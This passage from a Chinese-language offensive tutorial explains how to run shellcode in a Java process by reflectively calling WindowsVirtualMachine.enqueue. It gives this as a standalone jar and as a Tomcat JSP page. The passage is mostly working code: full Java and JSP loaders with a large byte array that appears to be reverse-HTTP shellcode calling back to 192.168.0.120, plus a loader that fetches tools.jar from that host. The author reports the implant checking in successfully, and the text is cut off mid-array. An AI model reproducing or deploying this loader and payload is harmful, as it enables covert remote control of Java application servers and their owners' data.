直接执行会报错提示ClassNotFoundException: sun.tools.attach.WindowsVirtualMachine，这里需要添加引用tools.jar，默认位置为< jdk >libtools.jar



通过java反射 WindowsVirtualMachine.class ->enqueue->执行shellode



最后打包jar文件执行



打包成功后执行



如果出现错误信息 java.lang.ClassNotFoundException: sun.tools.attach.WindowsVirtualMachine

首先获取java的环境变量

```
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\MSI-NB\AppData\Roaming
CLASSPATH=.C:\Program Files\Java\jdk1.8.0_202\lib;C:\Program Files\Java\jdk1.8.0_202\lib\tools.jar
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=MOONSEC
ComSpec=C:\WINDOWS\system32\cmd.exe
configsetroot=C:\WINDOWS\ConfigSetRoot
DriverData=C:\Windows\System32\Drivers\DriverData
FPS_BROWSER_APP_PROFILE_STRING=Internet Explorer
FPS_BROWSER_USER_PROFILE_STRING=Default
GOPATH=C:\Users\MSI-NB\go
HOMEDRIVE=C:
HOMEPATH=\Users\MSI-NB
JAVA_HOME=C:\Program Files\Java\jdk1.8.0_202
```

java中的 Xbootclasspath  
-Xbootclasspath: 完全取代基本核心的Java class 搜索路径.不常用（慎用）,否则要重新写所有Java 核心class  
-Xbootclasspath/a: 后缀。在bootclasspath后面添加。常用!!  
-Xbootclasspath/p: 前缀。在bootclasspath前面添加。不常用,避免引起不必要的冲突。  
启动的时候指定 tools.jar

```
D:\code\jspshellcode\out\artifacts\jspshellcode_jar>java -Xbootclasspath/a:"C:\Program Files\Java\jdk1.8.0_202\lib\tools.jar" -jar jspshellcode.jar
```

成功上线。



其它协议绕过

使用file协议  
URLClassLoader loader = new URLClassLoader(new URL[] { new URL("file:C:\Program Files\Java\jdk1.8.0\_202\lib\tools.jar") });  
Class cls = loader.loadClass( "sun.tools.attach.WindowsVirtualMachine");

使用http协议

```
package jspsec;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;

public class JspShellCode2 {
    public static void main(String[] args) throws Exception {
        URLClassLoader loader = new URLClassLoader(new URL[] { new URL("http://192.168.0.120/tools.jar") });
        Class cls = loader.loadClass( "sun.tools.attach.WindowsVirtualMachine");
        for (Method m:cls.getDeclaredMethods())
        {
            if (m.getName().equals("enqueue"))
            {
                long hProcess=-1;
                byte buf[] = new byte[]
                        {
                                (byte)0xfc,(byte)0x48,(byte)0x83,(byte)0xe4,(byte)0xf0,(byte)0xe8,(byte)0xc8,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0x50,(byte)0x52,(byte)0x51,(byte)0x56,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x65,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x60,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x18,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x48,(byte)0x8b,(byte)0x72,(byte)0x50,(byte)0x48,(byte)0x0f,(byte)0xb7,(byte)0x4a,(byte)0x4a,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x3c,(byte)0x61,(byte)0x7c,(byte)0x02,(byte)0x2c,(byte)0x20,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0xe2,(byte)0xed,(byte)0x52,(byte)0x41,(byte)0x51,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x8b,(byte)0x42,(byte)0x3c,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x81,(byte)0x78,(byte)0x18,(byte)0x0b,(byte)0x02,(byte)0x75,(byte)0x72,(byte)0x8b,(byte)0x80,(byte)0x88,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x48,(byte)0x85,(byte)0xc0,(byte)0x74,(byte)0x67,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x50,(byte)0x8b,(byte)0x48,(byte)0x18,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x20,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0xe3,(byte)0x56,(byte)0x48,(byte)0xff,(byte)0xc9,(byte)0x41,(byte)0x8b,(byte)0x34,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd6,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0x38,(byte)0xe0,(byte)0x75,(byte)0xf1,(byte)0x4c,(byte)0x03,(byte)0x4c,(byte)0x24,(byte)0x08,(byte)0x45,(byte)0x39,(byte)0xd1,(byte)0x75,(byte)0xd8,(byte)0x58,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x24,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x41,(byte)0x8b,(byte)0x0c,(byte)0x48,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x1c,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x8b,(byte)0x04,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x58,(byte)0x41,(byte)0x58,(byte)0x5e,(byte)0x59,(byte)0x5a,(byte)0x41,(byte)0x58,(byte)0x41,(byte)0x59,(byte)0x41,(byte)0x5a,(byte)0x48,(byte)0x83,(byte)0xec,(byte)0x20,(byte)0x41,(byte)0x52,(byte)0xff,(byte)0xe0,(byte)0x58,(byte)0x41,(byte)0x59,(byte)0x5a,(byte)0x48,(byte)0x8b,(byte)0x12,(byte)0xe9,(byte)0x4f,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x5d,(byte)0x6a,(byte)0x00,(byte)0x49,(byte)0xbe,(byte)0x77,(byte)0x69,(byte)0x6e,(byte)0x69,(byte)0x6e,(byte)0x65,(byte)0x74,(byte)0x00,(byte)0x41,(byte)0x56,(byte)0x49,(byte)0x89,(byte)0xe6,(byte)0x4c,(byte)0x89,(byte)0xf1,(byte)0x41,(byte)0xba,(byte)0x4c,(byte)0x77,(byte)0x26,(byte)0x07,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x4d,(byte)0x31,(byte)0xc0,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x41,(byte)0x50,(byte)0x41,(byte)0x50,(byte)0x41,(byte)0xba,(byte)0x3a,(byte)0x56,(byte)0x79,(byte)0xa7,(byte)0xff,(byte)0xd5,(byte)0xeb,(byte)0x73,(byte)0x5a,(byte)0x48,(byte)0x89,(byte)0xc1,(byte)0x41,(byte)0xb8,(byte)0xb9,(byte)0x08,(byte)0x00,(byte)0x00,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0x51,(byte)0x6a,(byte)0x03,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0xba,(byte)0x57,(byte)0x89,(byte)0x9f,(byte)0xc6,(byte)0xff,(byte)0xd5,(byte)0xeb,(byte)0x59,(byte)0x5b,(byte)0x48,(byte)0x89,(byte)0xc1,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x49,(byte)0x89,(byte)0xd8,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x52,(byte)0x68,(byte)0x00,(byte)0x02,(byte)0x40,(byte)0x84,(byte)0x52,(byte)0x52,(byte)0x41,(byte)0xba,(byte)0xeb,(byte)0x55,(byte)0x2e,(byte)0x3b,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x89,(byte)0xc6,(byte)0x48,(byte)0x83,(byte)0xc3,(byte)0x50,(byte)0x6a,(byte)0x0a,(byte)0x5f,(byte)0x48,(byte)0x89,(byte)0xf1,(byte)0x48,(byte)0x89,(byte)0xda,(byte)0x49,(byte)0xc7,(byte)0xc0,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x52,(byte)0x52,(byte)0x41,(byte)0xba,(byte)0x2d,(byte)0x06,(byte)0x18,(byte)0x7b,(byte)0xff,(byte)0xd5,(byte)0x85,(byte)0xc0,(byte)0x0f,(byte)0x85,(byte)0x9d,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0x48,(byte)0xff,(byte)0xcf,(byte)0x0f,(byte)0x84,(byte)0x8c,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0xeb,(byte)0xd3,(byte)0xe9,(byte)0xe4,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0xe8,(byte)0xa2,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x2f,(byte)0x35,(byte)0x78,(byte)0x56,(byte)0x5a,(byte)0x00,(byte)0xe6,(byte)0xb8,(byte)0x49,(byte)0x33,(byte)0xa3,(byte)0x64,(byte)0x57,(byte)0x7d,(byte)0x29,(byte)0x88,(byte)0xd7,(byte)0x36,(byte)0x39,(byte)0xc7,(byte)0x4d,(byte)0x96,(byte)0x8a,(byte)0x7a,(byte)0x23,(byte)0x80,(byte)0x12,(byte)0x7f,(byte)0x30,(byte)0xe8,(byte)0x9a,(byte)0xab,(byte)0xcc,(byte)0x51,(byte)0x36,(byte)0xdc,(byte)0x5a,(byte)0x4e,(byte)0xc0,(byte)0x33,(byte)0xa8,(byte)0x6e,(byte)0xc9,(byte)0x50,(byte)0x46,(byte)0x1a,(byte)0x7b,(byte)0x2c,(byte)0xac,(byte)0x18,(byte)0x99,(byte)0x76,(byte)0x74,(byte)0xee,(byte)0x26,(byte)0x8c,(byte)0x8b,(byte)0xc3,(byte)0x54,(byte)0xea,(byte)0x57,(byte)0xfa,(byte)0x62,(byte)0x0b,(byte)0xbd,(byte)0x52,(byte)0x2e,(byte)0x86,(byte)0xd1,(byte)0xef,(byte)0xc5,(byte)0x41,(byte)0x52,(byte)0x5d,(byte)0x35,(byte)0x0a,(byte)0xf3,(byte)0x08,(byte)0x55,(byte)0x00,(byte)0x55,(byte)0x73,(byte)0x65,(byte)0x72,(byte)0x2d,(byte)0x41,(byte)0x67,(byte)0x65,(byte)0x6e,(byte)0x74,(byte)0x3a,(byte)0x20,(byte)0x4d,(byte)0x6f,(byte)0x7a,(byte)0x69,(byte)0x6c,(byte)0x6c,(byte)0x61,(byte)0x2f,(byte)0x35,(byte)0x2e,(byte)0x30,(byte)0x20,(byte)0x28,(byte)0x63,(byte)0x6f,(byte)0x6d,(byte)0x70,(byte)0x61,(byte)0x74,(byte)0x69,(byte)0x62,(byte)0x6c,(byte)0x65,(byte)0x3b,(byte)0x20,(byte)0x4d,(byte)0x53,(byte)0x49,(byte)0x45,(byte)0x20,(byte)0x39,(byte)0x2e,(byte)0x30,(byte)0x3b,(byte)0x20,(byte)0x57,(byte)0x69,(byte)0x6e,(byte)0x64,(byte)0x6f,(byte)0x77,(byte)0x73,(byte)0x20,(byte)0x4e,(byte)0x54,(byte)0x20,(byte)0x36,(byte)0x2e,(byte)0x31,(byte)0x3b,(byte)0x20,(byte)0x57,(byte)0x4f,(byte)0x57,(byte)0x36,(byte)0x34,(byte)0x3b,(byte)0x20,(byte)0x54,(byte)0x72,(byte)0x69,(byte)0x64,(byte)0x65,(byte)0x6e,(byte)0x74,(byte)0x2f,(byte)0x35,(byte)0x2e,(byte)0x30,(byte)0x29,(byte)0x0d,(byte)0x0a,(byte)0x00,(byte)0x06,(byte)0x8c,(byte)0x02,(byte)0xe6,(byte)0xec,(byte)0x8b,(byte)0x95,(byte)0x43,(byte)0xac,(byte)0x29,(byte)0xd9,(byte)0xce,(byte)0x8e,(byte)0x4b,(byte)0xe3,(byte)0xcc,(byte)0xac,(byte)0x7b,(byte)0x4b,(byte)0x71,(byte)0x5a,(byte)0x59,(byte)0x14,(byte)0xe6,(byte)0x6f,(byte)0x3d,(byte)0x80,(byte)0x57,(byte)0xa7,(byte)0xec,(byte)0x8c,(byte)0xae,(byte)0x7a,(byte)0xcf,(byte)0x3d,(byte)0x80,(byte)0xcb,(byte)0x38,(byte)0x62,(byte)0x37,(byte)0x97,(byte)0x66,(byte)0xd1,(byte)0xb0,(byte)0xa2,(byte)0x6e,(byte)0x9d,(byte)0x81,(byte)0x90,(byte)0x0a,(byte)0xab,(byte)0x3c,(byte)0xad,(byte)0x18,(byte)0x32,(byte)0x3d,(byte)0x74,(byte)0x66,(byte)0x2a,(byte)0x13,(byte)0x0b,(byte)0x47,(byte)0xe3,(byte)0x03,(byte)0xe2,(byte)0xec,(byte)0x6e,(byte)0xc7,(byte)0x65,(byte)0x18,(byte)0x68,(byte)0xe4,(byte)0x30,(byte)0x38,(byte)0xa8,(byte)0x22,(byte)0x2a,(byte)0x1b,(byte)0xf6,(byte)0xd6,(byte)0x4a,(byte)0x14,(byte)0x0e,(byte)0x4c,(byte)0x09,(byte)0x62,(byte)0xd0,(byte)0xd8,(byte)0xed,(byte)0x9f,(byte)0x09,(byte)0x54,(byte)0xdd,(byte)0x6e,(byte)0xbe,(byte)0x30,(byte)0x21,(byte)0xca,(byte)0x24,(byte)0x8f,(byte)0xc7,(byte)0x0e,(byte)0x02,(byte)0x2c,(byte)0x28,(byte)0xca,(byte)0xbb,(byte)0x5e,(byte)0x1e,(byte)0x18,(byte)0x69,(byte)0xc2,(byte)0x50,(byte)0x38,(byte)0x6d,(byte)0x45,(byte)0xa9,(byte)0x7d,(byte)0x42,(byte)0x03,(byte)0x35,(byte)0x19,(byte)0x33,(byte)0xdc,(byte)0xa8,(byte)0x5f,(byte)0xd9,(byte)0x42,(byte)0x0a,(byte)0x17,(byte)0xed,(byte)0xe8,(byte)0x6e,(byte)0x20,(byte)0xd2,(byte)0x1f,(byte)0xc3,(byte)0xdb,(byte)0xed,(byte)0x26,(byte)0x67,(byte)0xd9,(byte)0xcf,(byte)0xd7,(byte)0xca,(byte)0xde,(byte)0x71,(byte)0x1f,(byte)0xec,(byte)0xd7,(byte)0xa8,(byte)0x3f,(byte)0x7f,(byte)0x02,(byte)0xf9,(byte)0xb0,(byte)0x4f,(byte)0xc2,(byte)0xa5,(byte)0x0e,(byte)0xaa,(byte)0xd0,(byte)0x85,(byte)0x15,(byte)0x7d,(byte)0x3d,(byte)0xcb,(byte)0x6e,(byte)0xe6,(byte)0x33,(byte)0x3f,(byte)0x44,(byte)0x82,(byte)0x9f,(byte)0x93,(byte)0xef,(byte)0xd3,(byte)0x8e,(byte)0xf4,(byte)0x2a,(byte)0x97,(byte)0x20,(byte)0x11,(byte)0xf3,(byte)0xcb,(byte)0x91,(byte)0x82,(byte)0x2a,(byte)0x33,(byte)0x24,(byte)0xa8,(byte)0x8c,(byte)0xdd,(byte)0xf4,(byte)0x93,(byte)0xa4,(byte)0xe2,(byte)0xcc,(byte)0xad,(byte)0x4e,(byte)0x3b,(byte)0x60,(byte)0xb9,(byte)0x3d,(byte)0xe3,(byte)0x68,(byte)0x93,(byte)0x58,(byte)0xb0,(byte)0x91,(byte)0x44,(byte)0xdc,(byte)0x2c,(byte)0x47,(byte)0x23,(byte)0x18,(byte)0x94,(byte)0x0a,(byte)0x00,(byte)0x41,(byte)0xbe,(byte)0xf0,(byte)0xb5,(byte)0xa2,(byte)0x56,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x31,(byte)0xc9,(byte)0xba,(byte)0x00,(byte)0x00,(byte)0x40,(byte)0x00,(byte)0x41,(byte)0xb8,(byte)0x00,(byte)0x10,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0xb9,(byte)0x40,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0xba,(byte)0x58,(byte)0xa4,(byte)0x53,(byte)0xe5,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x93,(byte)0x53,(byte)0x53,(byte)0x48,(byte)0x89,(byte)0xe7,(byte)0x48,(byte)0x89,(byte)0xf1,(byte)0x48,(byte)0x89,(byte)0xda,(byte)0x41,(byte)0xb8,(byte)0x00,(byte)0x20,(byte)0x00,(byte)0x00,(byte)0x49,(byte)0x89,(byte)0xf9,(byte)0x41,(byte)0xba,(byte)0x12,(byte)0x96,(byte)0x89,(byte)0xe2,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x83,(byte)0xc4,(byte)0x20,(byte)0x85,(byte)0xc0,(byte)0x74,(byte)0xb6,(byte)0x66,(byte)0x8b,(byte)0x07,(byte)0x48,(byte)0x01,(byte)0xc3,(byte)0x85,(byte)0xc0,(byte)0x75,(byte)0xd7,(byte)0x58,(byte)0x58,(byte)0x58,(byte)0x48,(byte)0x05,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x50,(byte)0xc3,(byte)0xe8,(byte)0x9f,(byte)0xfd,(byte)0xff,(byte)0xff,(byte)0x31,(byte)0x39,(byte)0x32,(byte)0x2e,(byte)0x31,(byte)0x36,(byte)0x38,(byte)0x2e,(byte)0x30,(byte)0x2e,(byte)0x31,(byte)0x32,(byte)0x30,(byte)0x00,(byte)0x49,(byte)0x96,(byte)0x02,(byte)0xd2
                        };
                String cmd="load";String pipeName="taest";
                m.setAccessible(true);
                Object result=m.invoke(cls,new Object[]{hProcess,buf,cmd,pipeName,new Object[]{}});
                System.out.println("result:"+result);
            }
        }
        Thread.sleep(4000);
    }
}
```

## 方法2.tomcat jsp 加载 shellcode

代码分析  
undefined 导入必要的类：

```
jsp<%@ page import="java.net.URLClassLoader" %>
<%@ page import="java.net.URL" %>
<%@ page import="java.lang.reflect.Method" %>
```

这几行代码导入了 Java 的 URLClassLoader、URL 和 Method 类，这些类分别用于动态加载类、处理 URL 和反射调用方法。  
undefined 设置内容类型：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
```

设置页面的内容类型为 HTML，并使用 UTF-8 字符编码。  
undefined 动态加载类：

```
URLClassLoader loader = new URLClassLoader(new URL[] { new URL("file:C:\\Program Files\\Java\\jdk1.8.0_202\\lib\\tools.jar") });
Class cls = loader.loadClass("sun.tools.attach.WindowsVirtualMachine");
```

创建 URLClassLoader 实例，通过指定 tools.jar 文件的路径来加载类 sun.tools.attach.WindowsVirtualMachine，这是 Java 的工具包之一，通常用于操作 Java 虚拟机。  
undefined 遍历方法并查找 enqueue：

```
for (Method m : cls.getDeclaredMethods()) {
    if (m.getName().equals("enqueue")) {
```

获取加载类的所有方法，并查找名为 enqueue 的方法。enqueue 方法通常用于将某种命令发送到虚拟机。  
undefined 准备参数并调用 enqueue 方法：

```
long hProcess = -1;
byte buf[] = new byte[] { ... };
String cmd = "load";
String pipeName = "taest";
  ○ hProcess 代表要附加的进程句柄，这里设置为 -1，通常需要设置为有效的进程句柄。
  ○ buf 是一个包含字节码的数组，实际内容是二进制数据，这可能是某种特定的操作指令或代码。
  ○ cmd 和 pipeName 是传递给 enqueue 方法的额外参数。
undefined 调用 enqueue 方法：
jsp复制m.setAccessible(true);
Object result = m.invoke(cls, new Object[]{hProcess, buf, cmd, pipeName, new Object[]{}});
System.out.println("result:" + result);
  ○ setAccessible(true) 使得私有方法也可以被调用。
  ○ invoke 方法用于执行 enqueue，并传入之前准备好的参数。
undefined 延迟执行：
Thread.sleep(4000);
```

暂停当前线程 4000 毫秒（4 秒），可能是为了给操作一些时间完成。

### 代码目的

整段代码的目的是通过反射机制向某个 Java 虚拟机发送指令，具体的指令由 buf 数组中的字节码定义。这种方式通常用于进行低级别的 VM 操作，比如动态加载类、执行代码等。

```
<%@ page import="java.net.URLClassLoader" %>
<%@ page import="java.net.URL" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    URLClassLoader loader = new URLClassLoader(new URL[] { new URL("file:C:\\Program Files\\Java\\jdk1.8.0_202\\lib\\tools.jar") });
    Class cls = loader.loadClass( "sun.tools.attach.WindowsVirtualMachine");
    for (Method m:cls.getDeclaredMethods())
    {
        if (m.getName().equals("enqueue"))
        {
            long hProcess=-1;
            byte buf[] = new byte[]
                    {
                            (byte)0xfc,(byte)0x48,(byte)0x83,(byte)0xe4,(byte)0xf0,(byte)0xe8,(byte)0xc8,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0x50,(byte)0x52,(byte)0x51,(byte)0x56,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x65,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x60,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x18,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x48,(byte)0x8b,(byte)0x72,(byte)0x50,(byte)0x48,(byte)0x0f,(byte)0xb7,(byte)0x4a,(byte)0x4a,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x3c,(byte)0x61,(byte)0x7c,(byte)0x02,(byte)0x2c,(byte)0x20,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0xe2,(byte)0xed,(byte)0x52,(byte)0x41,(byte)0x51,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x8b,(byte)0x42,(byte)0x3c,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x81,(byte)0x78,(byte)0x18,(byte)0x0b,(byte)0x02,(byte)0x75,(byte)0x72,(byte)0x8b,(byte)0x80,(byte)0x88,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x48,(byte)0x85,(byte)0xc0,(byte)0x74,(byte)0x67,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x50,(byte)0x8b,(byte)0x48,(byte)0x18,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x20,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0xe3,(byte)0x56,(byte)0x48,(byte)0xff,(byte)0xc9,(byte)0x41,(byte)0x8b,(byte)0x34,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd6,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0x38,(byte)0xe0,(byte)0x75,(byte)0xf1,(byte)0x4c,(byte)0x03,(byte)0x4c,(byte)0x24,(byte)0x08,(byte)0x45,(byte)0x39,(byte)0xd1,(byte)0x75,(byte)0xd8,(byte)0x58,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x24,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x41,(byte)0x8b,(byte)0x0c,(byte)0x48,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x1c,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x8b,(byte)0x04,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x58,(byte)0x41,(byte)0x58,(byte)0x5e,(byte)0x59,(byte)0x5a,(byte)0x41,(byte)0x58,(byte)0x41,(byte)0x59,(byte)0x41,(byte)0x5a,(byte)0x48,(byte)0x83,(byte)0xec,(byte)0x20,(byte)0x41,(byte)0x52,(byte)0xff,(byte)0xe0,(byte)0x58,(byte)0x41,(byte)0x59,(byte)0x5a,(byte)0x48,(byte)0x8b,(byte)0x12,(byte)0xe9,(byte)0x4f,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x5d,(byte)0x6a,(byte)0x00,(byte)0x49,(byte)0xbe,(byte)0x77,(byte)0x69,(byte)0x6e,(byte)0x69,(byte)0x6e,(byte)0x65,(byte)0x74,(byte)0x00,(byte)0x41,(byte)0x56,(byte)0x49,(byte)0x89,(byte)0xe6,(byte)0x4c,(byte)0x89,(byte)0xf1,(byte)0x41,(byte)0xba,(byte)0x4c,(byte)0x77,(byte)0x26,(byte)0x07,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x4d,(byte)0x31,(byte)0xc0,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x41,(byte)0x50,(byte)0x41,(byte)0x50,(byte)0x41,(byte)0xba,(byte)0x3a,(byte)0x56,(byte)0x79,(byte)0xa7,(byte)0xff,(byte)0xd5,(byte)0xeb,(byte)0x73,(byte)0x5a,(byte)0x48,(byte)0x89,(byte)0xc1,(byte)0x41,(byte)0xb8,(byte)0xb9,(byte)0x08,(byte)0x00,(byte)0x00,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0x51,(byte)0x6a,(byte)0x03,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0xba,(byte)0x57,(byte)0x89,(byte)0x9f,(byte)0xc6,(byte)0xff,(byte)0xd5,(byte)0xeb,(byte)0x59,(byte)0x5b,(byte)0x48,(byte)0x89,(byte)0xc1,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x49,(byte)0x89,(byte)0xd8,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x52,(byte)0x68,(byte)0x00,(byte)0x02,(byte)0x40,(byte)0x84,(byte)0x52,(byte)0x52,(byte)0x41,(byte)0xba,(byte)0xeb,(byte)0x55,(byte)0x2e,(byte)0x3b,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x89,(byte)0xc6,(byte)0x48,(byte)0x83,(byte)0xc3,(byte)0x50,(byte)0x6a,(byte)0x0a,(byte)0x5f,(byte)0x48,(byte)0x89,(byte)0xf1,(byte)0x48,(byte)0x89,(byte)0xda,(byte)0x49,(byte)0xc7,(byte)0xc0,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x52,(byte)0x52,(byte)0x41,(byte)0xba,(byte)0x2d,(byte)0x06,(byte)0x18,(byte)0x7b,(byte)0xff,(byte)0xd5,(byte)0x85,(byte)0xc0,(byte)0x0f,(byte)0x85,(byte)0x9d,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0x48,(byte)0xff,(byte)0xcf,(byte)0x0f,(byte)0x84,(byte)0x8c,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0xeb,(byte)0xd3,(byte)0xe9,(byte)0xe4,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0xe8,(byte)0xa2,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x2f,(byte)0x35,(byte)0x78,(byte)0x56,(byte)0x5a,(byte)0x00,(byte)0xe6,(byte)0xb8,(byte)0x49,(byte)0x33,(byte)0xa3,(byte)0x64,(byte)0x57,(byte)0x7d,(byte)0x29,(byte)0x88,(byte)0xd7,(byte)0x36,(byte)0x39,(byte)0xc7,(byte)0x4d,(byte)0x96,(byte)0x8a,(byte)0x7a,(byte)0x23,(byte)0x80,(byte)0x12,(byte)0x7f,(byte)0x30,(byte)0xe8,(byte)0x9a,(byte)0xab,(byte)0xcc,(byte)0x51,(byte)0x36,(byte)0xdc,(byte)0x5a,(byte)0x4e,(byte)0xc0,(byte)0x33,(byte)0xa8,(byte)0x6e,(byte)0xc9,(byte)0x50,(byte)0x46,(byte)0x1a,(byte)0x7b,(byte)0x2c,(byte)0xac,(byte)0x18,(byte)0x99,(byte)0x76,(byte)0x74,(byte)0xee,(byte)0x26,(byte)0x8c,(byte)0x8b,(byte)0xc3,(byte)0x54,(byte)0xea,(byte)0x57,(byte)0xfa,(byte)0x62,(byte)0x0b,(byte)0xbd,(byte)0x52,(byte)0x2e,(byte)0x86,(byte)0xd1,(byte)0xef,(byte)0xc5,(byte)0x41,(byte)0x52,(byte)0x5d,(byte)0x35,(byte)0x0a,(byte)0xf3,(byte)0x08,(byte)0x55,(byte)0x00,(byte)0x55,(byte)0x73,(byte)0x65,(byte)0x72,(byte)0x2d,(byte)0x41,(byte)0x67,(byte)0x65,(byte)0x6e,(byte)0x74,(byte)0x3a,(byte)0x20,(byte)0x4d,(byte)0x6f,(byte)0x7a,(byte)0x69,(byte)0x6c,(byte)0x6c,(byte)0x61,(byte)0x2f,(byte)0x35,(byte)0x2e,(byte)0x30,(byte)0x20,(byte)0x28,(byte)0x63,(byte)0x6f,(byte)0x6d,(byte)0x70,(byte)0x61,(byte)0x74,(byte)0x69,(byte)0x62,(byte)0x6c,(byte)0x65,(byte)0x3b,(byte)0x20,(byte)0x4d,(byte)0x53,(byte)0x49,(byte)0x45,(byte)0x20,(byte)0x39,(byte)0x2e,(byte)0x30,(byte)0x3b,(byte)0x20,(byte)0x57,(byte)0x69,(byte)0x6e,(byte)0x64,(byte)0x6f,(byte)0x77,(byte)0x73,(byte)0x20,(byte)0x4e,(byte)0x54,(byte)0x20,(byte)0x36,(byte)0x2e,(byte)0x31,(byte)0x3b,(byte)0x20,(byte)0x57,(byte)0x4f,(byte)0x57,(byte)0x36,(byte)0x34,(byte)0x3b,(byte)0x20,(byte)0x54,(byte)0x72,(byte)0x69,(byte)0x64,(byte)0x65,(byte)0x6e,(byte)0x74,(byte)0x2f,(byte)0x35,(byte)0x2e,(byte)0x30,(byte)0x29,(byte)0x0d,(byte)0x0a,(byte)0x00,(byte)0x06,(byte)0x8c,(byte)0x02,(byte)0xe6,(byte)0xec,(byte)0x8b,(byte)0x95,(byte)0x43,(byte)0xac,(byte)0x29,(byte)0xd9,(byte)0xce,(byte)0x8e,(byte)0x4b,(byte)0xe3,(byte)0xcc,(byte)0xac,(byte)0x7b,(byte)0x4b,(byte)0x